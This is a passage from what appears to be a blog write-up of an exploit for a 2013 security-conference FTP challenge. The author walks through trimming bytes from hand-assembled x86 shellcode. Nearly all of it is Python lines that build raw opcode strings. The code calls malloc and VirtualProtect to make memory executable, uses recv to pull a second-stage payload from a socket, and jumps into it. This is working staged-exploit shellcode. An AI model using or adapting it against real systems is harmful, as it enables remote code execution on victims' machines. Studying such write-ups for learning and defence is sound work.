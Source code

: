 ``` python
shellcode += "\x50"                               # PUSH EAX
# invoke the call to `malloc`
shellcode += "\xFF\xD3"                           # CALL EBX
shellcode += "\x59\x51"                           # POP ECX, PUSH ECX
# save the memory handle, and push it up ready for later use
shellcode += "\x8B\xF0"                           # MOV ESI, EAX
shellcode += "\x50"                               # PUSH EAX
# set up virtual protect call
shellcode += "\x66\xBB\xA4\x3E"                   # MOV BX, 0x3EA4
shellcode += "\x8D\x44\x24\xDC"                   # LEA EAX, [ESP-0x24]
shellcode += "\x50"                               # PUSH EAX
shellcode += "\x6A\x40"                           # PUSH 0x40
shellcode += "\x51"                               # PUSH ECX
shellcode += "\x56"                               # PUSH ESI
# call virtual protect
shellcode += "\xFF\xD3"                           # CALL EBX
# prep the call for recv
shellcode += "\x66\xBB\xDC\x82"                   # MOV BX, 0x82DC
shellcode += "\x57"                               # PUSH EDI
shellcode += "\xFF\x13"                           # CALL [EBX]
# invoke the payload
shellcode += "\xFF\xE6"                           # JMP ESI
```

### Saving 2 - Initial address fudging

I didn't realise at first with the previous exploit, but at the time of the crash `ECX` actually contained a partially valid address from which we could start doing address calculations from. Our current method looks like this:

``` python
# Get the address of `socket` into EBX
shellcode += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
shellcode += "\xC1\xEB\x08"                       # SHR EBX, 0x8
```

Given that the higher-order bytes in `ECX` were usable, I adjusted this bit so that it was a little smarter:

``` python
# Get the address of `socket` into EBX
shellcode += "\x8B\xD9"                           # MOV EBX,ECX <contains an address>
shellcode += "\xB3\x34"                           # MOV BL, 0x34
shellcode += "\x8A\xFB"                           # MOV BH, BL  <address now valid>
```

We're down to `6` bytes from `8`. `2` bytes saved!

### Saving 3 - Pushing byte values

Again, in my n00bness, I was trying to be too smart with jiggling `EAX` values to push things onto to the stack prior to the call to `socket()`:

``` python
# set up the stack for the call to `socket`
shellcode += "\xB0\x06"                           # MOV AL, 0x6
shellcode += "\x50"                               # PUSH EAX
shellcode += "\xB0\x01"                           # MOV AL, 0x1
shellcode += "\x50"                               # PUSH EAX
shellcode += "\x40"                               # INC EAX
shellcode += "\x50"                               # PUSH EAX
```


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization